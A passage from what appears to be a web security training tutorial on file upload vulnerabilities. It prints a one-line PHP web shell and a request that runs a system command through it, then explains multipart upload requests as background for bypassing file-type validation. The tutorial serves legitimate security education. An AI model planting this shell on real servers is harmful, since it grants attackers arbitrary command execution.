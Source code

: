 **APPRENTICE[Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)**

Solved

A more versatile web shell may look something like this:

```
<?php echo system($_GET['command']); ?>
```

This script enables you to pass an arbitrary system command via a query parameter as follows:

```
GET /example/exploit.php?command=id HTTP/1.1
```

## **Exploiting flawed validation of file uploads**

In the wild, it's unlikely that you'll find a website that has no protection whatsoever against file upload attacks like we saw in the previous lab. But just because defenses are in place, that doesn't mean that they're robust.

In this section, we'll look at some ways that web servers attempt to validate and sanitize file uploads, as well as how you can exploit flaws in these mechanisms to obtain a web shell for remote code execution.

### **Flawed file type validation**

When submitting HTML forms, the browser typically sends the provided data in a `POST` request with the content type `application/x-www-form-url-encoded`. This is fine for sending simple text like your name, address, and so on, but is not suitable for sending large amounts of binary data, such as an entire image file or a PDF document. In this case, the content type `multipart/form-data` is the preferred approach.

Consider a form containing fields for uploading an image, providing a description of it, and entering your username. Submitting such a form might result in a request that looks something like this:

```
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"

wiener
---------------------------012345678901234567890123456--
```
